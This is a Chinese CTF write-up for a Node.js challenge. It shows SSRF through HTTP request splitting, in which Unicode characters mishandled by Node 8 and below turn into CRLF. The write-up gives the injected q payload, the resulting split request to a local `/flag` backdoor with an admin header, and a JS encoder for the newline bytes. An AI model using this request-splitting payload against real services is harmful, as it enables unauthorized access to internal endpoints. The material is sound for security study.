 
分析题目，可以发现主页基本没什么东西，而是通过请求`/core`这个接口，来获取内容，并添加至主页。

还是从源码入手。可以发现`/core`接口是直接请求`/getMeme`接口，获取到数据。此时传入了q参数。

然后可以发现存在`/flag`接口，分析后，可以发现是个后门。并且需要本地访问。

根据以上信息，我们可以推断出，利用`/core`接口，造成ssrf，进而访问`/flag`后门，获取flag。

那问题来了，我们如何去得到一个ssrf？`/core`中，我们可以操控的点只有参数q。

经过查询资料，最终发现其实题目名称就是一个hint。有一种攻击方式是：拆分请求来实现的SSRF攻击。
可以参考：
- [通过拆分攻击实现的SSRF攻击](https://xz.aliyun.com/t/2894)
- [I-SOON2019-Membershop出题思路](https://hpdoger.cn/2019/12/01/I-SOON2019-Membershop%E5%87%BA%E9%A2%98%E6%80%9D%E8%B7%AF/)

在这里就不细说了。

其实可以与CRLF注入类比一下。在这里，也是通过构造换行，来结束前一个请求，并构造出下一个请求。下面就是我们q的参数。我们只要成功注入，便会多一个发往flag的请求。

```
x HTTP/1.1\r\n\r\nGET /flag HTTP/1.1\r\nadminauth: secretpassword\r\npug: #{xxx}\r\n
```

```http
GET /core?q=x HTTP/1.1


GET /flag HTTP/1.1
adminauth: secretpassword
pug: #{xxx}

```

在nodejs中，其实对换行操作做了处理，但是在node8及以下，在处理unicode字符存在问题。可以导致换行符出现。具体可以看[上面文章](https://xz.aliyun.com/t/2894)

我们可以构造如下样子，来造出换行符
```
http://example.com/\u{010D}\u{010A}/test
```
可以通过以下js脚本，来进行编码。

```js

shellCodeRaw="\r\n"
var shellCodeRawList = shellCodeRaw.split("")
var shellCodeAsciiList= [];
for(var i=0;i<shellCodeRawList.length;i++){
	tmp = shellCodeRawList[i].charCodeAt()
	shellCodeAsciiList.push(tmp.toString(16));
}

shellcode=shellCodeAsciiList.join("}\\u{01");
shellcode= "\\u{01"+shellcode+"}"

eval("encodeURI('"+shellcode+"')")

// \r\n --> %C4%8D%C4%8A
// 空格 --> %C4%A0

// 构造如下参数
//z%C4%A0HTTP/1.1%C4%8D%C4%8A%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0/flag%C4%A0HTTP/1.1%C4%8D%C4%8A%C4%8D%C4%8A
```
